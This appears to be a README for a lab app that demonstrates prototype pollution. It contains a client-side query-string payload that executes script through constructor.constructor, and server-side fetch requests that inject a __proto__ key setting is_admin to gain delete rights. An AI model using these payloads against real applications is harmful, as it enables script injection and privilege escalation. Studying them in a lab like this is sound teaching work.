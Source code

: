 # Prototype Pollution

## Prerequisite

- [NodeJS](https://nodejs.org/en/) v16.x or latest

Install npm packages
```bash
$ npm install
```

Running the server
```bash
$ npm start
```

## Client Side Prototype Pollution

`?__proto__[props][][value]=1&__proto__[name]=": ''.constructor.constructor('alert(`polluted`)')(),"`

## Server Side Prototype Pollution

Open `Developer tools` in the browser and just insert code below on `Console` tab

Step 1: Post data
```js
useFetch({
  url: '/api',
  method: 'POST',
  headers: {
    'Content-type': 'application/json'
  },
  data: JSON.stringify({
    user: {
      name: 'user',
      password: '1234'
    },
    blog: {
      title: 'Post 1',
      text: 'The blog post 1'
    }
  }),
  callback: (_xhr, success) => {
    console.log('success =>', success)
  }
});
```


Step 2: Delete data 
```js
useFetch({
  url: '/api',
  method: 'DELETE',
  headers: {
    'Content-type': 'application/json'
  },
  data: JSON.stringify({
    user: {
      name: "user",
      password: "1234"
    },
    blog: 1
  }),
  callback: (_xhr, success) => {
    console.log('success =>', success)
  }
});
```


Step 3: Post data with `__proto__` key
```js
useFetch({
  url: '/api',
  method: 'POST',
  headers: {
    'Content-type': 'application/json'
  },
  data: JSON.stringify({
    user: {
      name: 'user',
      password: '1234'
    },
    blog: {
      title: 'Post 2',
      text: 'The blog post 2',
      ['__proto__']: {
        is_admin: true
      }
    }
  }),
  callback: (_xhr, success) => {
    console.log('success =>', success)
  }
});
```

Repeat step 2

```js
const createUrlParams = (data) => {
  const getPairs = (obj, keys = []) => {
    return Object.entries(obj).reduce((pairs, [key, value]) => {
      if (typeof value === "object") {
        pairs.push(...getPairs(value, [...keys, key]));
      } else {
        pairs.push([[...keys, key], value]);
      }
      return pairs;
    }, []);
  };

  let mapped = getPairs(data).map(([[key, ...keysRest], value]) => {
    return `${key}${keysRest.map((k) => `[${k}]`).join("")}=${value}`;
  });

  return mapped.join("&");
};
```
